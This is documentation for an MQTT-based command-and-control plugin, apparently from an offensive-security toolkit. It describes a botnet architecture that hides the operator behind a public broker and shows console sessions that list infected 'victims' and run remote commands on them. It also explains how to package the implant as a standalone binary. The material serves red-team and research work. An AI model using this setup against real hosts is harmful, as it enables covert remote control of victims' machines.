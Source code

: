 Command & Control
=================

MQTT can be used for more than connecting your smart home to the cloud. This plugins harnesses the nature of the
protocol (publish/subscribe) to create a bot-net like network where the infected clients communicate not to a self
owned server directly (traditionally), but to a publicly open broker. By that, masquerading the identity of the
bot-net operator and utilizing the broker to handle the vast amount of clients available.

Architecture
------------

The architecture of the network is described as follows:

.. code-block:: shell

         subscribe: "input" +------------+   publish: "whoami"
         +----------------> |            | <-------------------+
         |                  |            |                     |
    +----+----+             |   MQTT     |                  +--+------+
    | Victim  |             |   Broker   |                  | Attacker|
    +----+----+             |            |                  +--+------+
         |                  |            |                     |
         +----------------> |            | <-------------------+
          publish: "root"   +------------+  subscribe: "output"


- The operator connects to a MQTT broker, and starts listening on specific pre-defined topics (:code:`output`).
- Infected clients, on startup, subscribe to the :code:`input` topics, by that listening for desired commands to be executed when the operator decides so.
- Then, after execution, the infected clients publish the outputs back to the broker on the :code:`output` topic.
- The operator, that have subscribed to the :code:`output` topics, now receives the data back and stores is in the database.


Operator
--------

Once we are connected to a broker (using the :code:`connect` command), we automatically start listening to the output topics.
Then, all we need is to wait for a victim to register (we will be notified if so), or look at the registered clients
using the :code:`victims` commands:

.. code-block:: text

    localhost:1883 >> victims
    +----+----------------------------------+--------+-----------+----------------------------+----------------------------+
    | ID |               UUID               |   OS   |  Hostname |         First Seen         |         Last Seen          |
    +----+----------------------------------+--------+-----------+----------------------------+----------------------------+
    | 1  | 8460a5f4bbd0460b9f347d81a44208a0 | darwin |  lab      | 2018-07-20 19:55:21.143132 | 2018-07-20 16:55:25.295223 |
    +----+----------------------------------+--------+-----------+----------------------------+----------------------------+

We can see we have a single client registered, and from the last seen timestamp, we can observe he was alive recently.
Now, we can choose it, using again the :code:`victims` command:

.. code-block:: text

    localhost:1883 >> victims -i 1
    localhost:1883 [Victim #1] >>

When choosing the client, we have registered a global context variable called :code:`Victim`. Now every command executed will
occur on it. If we want to un-select the victim, simply use the :code:`back victim` command. To execute a command we'll use the `exec` command:

.. code-block:: text

    localhost:1883 [Victim #1] >> exec whoami
    [!] Executed command (id #3), look at the output table for results.

The execution of commands is asynchronous so they won't block the main thread. We can examine that command output
using the :code:`commands` directive:

.. code-block:: text

    localhost:1883 [Victim #1] >> commands
    +----+---------+---------+----------------------------+
    | ID | Command | Output  |            Time            |
    +----+---------+---------+----------------------------+
    | 1  | whoami  | daniel  | 2018-07-23 17:17:05.694352 |
    +----+---------+---------+----------------------------+


We have successfully ran the command on the client and got the output back!


Infection
----------

Once decided which client should be infected, simply compile the library within the :code:`mqtt_pwn_victim/victim.py`
using bundlers such as `Py2EXE <https://pypi.org/project/py2exe/>`_ or `PyInstaller <https://www.pyinstaller.org/>`_.
This will create a stand-alone binary to be executed on the client. This section won't discuss directly how to infect
a client (out of the scope of this material).


